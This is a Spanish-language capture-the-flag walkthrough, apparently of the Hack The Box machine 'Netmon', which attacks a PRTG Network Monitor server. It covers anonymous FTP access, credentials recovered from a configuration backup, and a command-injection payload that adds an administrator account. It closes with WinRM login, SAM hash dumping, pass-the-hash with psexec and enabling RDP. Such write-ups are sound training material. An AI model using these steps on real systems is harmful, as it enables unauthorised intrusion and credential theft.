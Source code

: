 ## Summary

Tags: 
Y
- IP -> 10.10.10.152
- Ports -> TCP (21, 80, 135, 139, 445, 5985, 47001, 49664-9), UDP (idk)
- OS ->  Windows 
- Services & Applications
    - 21 -> ftp anonymous login allowed
    - 80 -> httpd 18.1.37.13946 (PRTG Network Monitor)
    - 135 -> msrpc
    - 139 -> netbios-ssn
    - 445 -> samba microsoft-ds Windows server 2008 R2 - 2012 microsoft-ds


## Launchpad

-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

## Recon
- Comando -> **ftp 10.10.10.152** Ingresamos por FTP y ahi podemos encontrar la flag de user.txt
- Comando -> **crackmapexec smb {ip_targeted}** Para ver si podemos listar los servicios de Windows del puerto 445 y nos sale Netmon 
- Comando -> **smbclient -L** **{ip_targeted} -N** Lista recursos compartidos a nivel de red haciendo uso de un null sesion (sin credencial alguna)
- - Comando -> **whatweb http://< URL>**  Nos dara una breve descripcion del gestor de contenidos del puerto 80, pero en este caso nos marca un error, por lo que miramos la pagina web.

Buscamos que es PRTG network monitor y tambien sus default password. **admin and user = prtgadmin** pero no funcionan. por lo que seguiremos buscando en ftp.
- Comando -> **ftp 10.10.10.152** Ingresamos por FTP, por lo que trataremos de buscar el (**paessler RPTG bandwit monitor**),  y encontrar rutas que nos puedan dar credenciales en texto claro
Rutas tipicas son:
- >cd "**Program Files**" Pero no encotramos nada interesante

- >cd "**Program Files (x86)**" Nos movemos a ese dir dentro del ftp
- >cd "PRTG Network Monitor" Nos movemos a ese directorio 
- >cd 'webroot' Nos metemos en ese dir que encontramos pero no encontramos nada

ProgramData especifica la ruta de acceso a la carpeta program-data (C:\\ProgramData). A diferencia de la carpeta archivos de programa, las aplicaciones pueden usar esta carpeta para almacenar datos para los usuarios estandar, ya que no requiere permisos elevados.

- >cd "**ProgramData**" Nos metemos dentro del dir y encontramos Paessler que lo encontramos con el comando (ls -la) para archivos ocultos
- >cd Paessler Nos metemos dentro del dir para ver si encontramos algo
- >cd "PRTG Network Monitor" Ingresamos al dir y encontramos el siguiente archivo jugoso
- >get "PRTG Configuration.dat" Archivo que puede contener credenciales y no lo descargamos

- Comando -> **cat "PRTG Configuration.dat" | grep -i password -C 1 | less**  Buscaremos la palabra password ahi adentro sin importar que este con mayusculas o minusculas (i=insensitive, c=listar una linea) y con less lo miramos en formato pagina. Pero no encontramos nada.

- >get "PRTG Configuration.old.bak" Ahora nos descargamos este archivo que tiene pinta de un backupy podria tener credenciales y nos lo descargamos
- Comando -> **diff "PRTG Configuration.dat" "PRTG Configuration.old.bak" | less**  Buscaremos la diferencia entres esos dos archivos, por lo que llegamos a encontrar un user=prtgadmin y password=PrTg@dmin2018

Ahora podemos acceder en la pagina web con esas credenciales obtenidas, pero nos marca error, por lo que si nos poenmos a pensar la encontramos en un archivo old, por lo que le aumentaremos a 2019 para ver si podemos entrar y lo logramos.

Buscamos en Google (PRTG Network Monitor command injection) Y nos dice que a traves de las notificaciones de la pagina web nosotros podemos ingresar un comando. Cuando creamos una y en la parte de "ejecute Program"
	Program File: **.ps1**
	Parameter: **test.txt;net user omar Omar123#! /add; net localgroup Administrators omar /add** 

Con eso vamos a poder agregar un usaurio que pretenezca al grupo Administrator
Despues le damos save. 

Para nosotros poder activar la notificacion que acabamos de crear le damos a la casilla y despues le damos a send test notification. 

- Comando -> **crackmapexec smb {ip_targeted} -u {‘user’} -p {‘password’}** Con este comando verificamos que exista el usuario que hemos colocado en la pagina web y si es asi nos pondra un [+] Pwn3d!.

## User

## Root
Cuando tengamos credenciales validas en el crackmapexec, podemos usar este servicio para conectarnos.
- Comando -> **evil-winrm -i {ip_targeted} -u {‘user’} -p {‘password’}** Con este comando nos conecta al servicio del servidor de winrm y de ahi podemos visualizar la flag root.txt final


--
Alternativo:
- Comando -> **crackmapexec smb {ip_targeted} -u {‘user’} -p {‘password’} --sam** Podremos listar el hash del usuario administrador y del resto que existan en el sistema, con los que podemos llegar a aplicar pass de hash  
- Comando -> **crackmapexec smb {ip_targeted} -u {‘user’} -H {‘hash’}** Con este comando verificamos que el usuario y su hash son validos y si es asi nos pondra un [+] Pwn3d!. 
- Comando -> **psexec.py WORKGROUP/Administrator@10.10.10.152 -hashes 's25df1s6fse86'** Podremos ganar acceso al sistema y nos lanzara una cmd ya que estariamos haciendo un Pass de Hash 

- Comando -> **crackmapexec smb < IP TARGET> -u <‘USER’> -H <‘HASH’> -M rdp -o action=enable** Podemos habilitar el RDP puerto 3389 
- Comando -> **remmina** Para podernos conectar a la maquina victima por RDP de forma grafica
	Ahi adentro le colocamos la IP
	Nombre, Password
	Dominio: WORKGROUP o netmon
	Aceptar 
Y nos debe de conectar al RDP